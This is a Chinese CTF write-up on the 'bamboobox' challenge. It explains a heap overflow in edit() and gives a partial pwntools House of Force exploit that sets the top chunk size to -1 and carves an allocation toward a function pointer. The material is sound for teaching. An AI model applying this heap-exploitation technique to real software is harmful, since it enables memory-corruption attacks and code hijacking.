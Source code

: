 ![image-20211012002823560](https://te4p0t.github.io/assets/images/2021-10/image-20211012002823560.png)

main函数中首先malloc一个0x10的堆块，存放着hello_message函数和goodbye_message函数指针。分别在main函数开始和输入“5”程序退出时调用。

存在漏洞函数magic。

设想：如果能够将堆中goodbye_message地址改为magic函数地址，那么输入“5”退出时就会执行漏洞程序。

![image-20211012002349328](https://te4p0t.github.io/assets/images/2021-10/image-20211012002349328.png)

edit没有检测长度，存在栈溢出，可以控制top chunk的size域（满足条件1）

![image-20211012002500311](https://te4p0t.github.io/assets/images/2021-10/image-20211012002500311.png)

add函数没有malloc申请size限制（满足条件2）

分配次数99次（满足条件3）

所以可以House of Force

```python
from pwn_debug import *
context.log_level = 'debug'

p = process(['/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so','./bamboobox'],env={"LD_PRELOAD":"/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})
elf = ELF("./bamboobox")

magic_addr = elf.symbols['magic']

def add(size, content):
	p.recvuntil("Your choice:")
	p.sendline("2")
	p.recvuntil("Please enter the length of item name:")
	p.sendline(str(size))
	p.recvuntil("Please enter the name of item:")
	p.send(content)
	
def show(index):
	p.recvuntil("Your choice:")
	p.sendline("1")

def edit(index, size, content):
	p.recvuntil("Your choice:")
	p.sendline("3")
	p.recvuntil("Please enter the index of item:")
	p.sendline(str(index))
	p.recvuntil("Please enter the length of item name:")
	p.sendline(str(size))
	p.recvuntil("Please enter the new name of the item:")
	p.send(content)
	
def delete(index):
	p.recvuntil("Your choice:")
	p.sendline("4")
	p.recvuntil("Please enter the index of item:")
	p.sendline(str(index))
	
add(0x20, 'a') #0
add(0x20, 'b') #1
edit(1, 0x30, b'a'*0x20 + p64(0) + p64(0xffffffffffffffff))	# 修改top chunk的size域为-1
offset = -(0x60+0x20) - 0x10								# 计算和函数栈偏移，确定malloc的大小
loc_size = offset
add(loc_size, 'a') #2										# malloc后top chunk位于target_addr - 0x10,此时
add(0x10, 'c') #3											# 该处分配的堆地址在target_addr，改为magic函数地址
```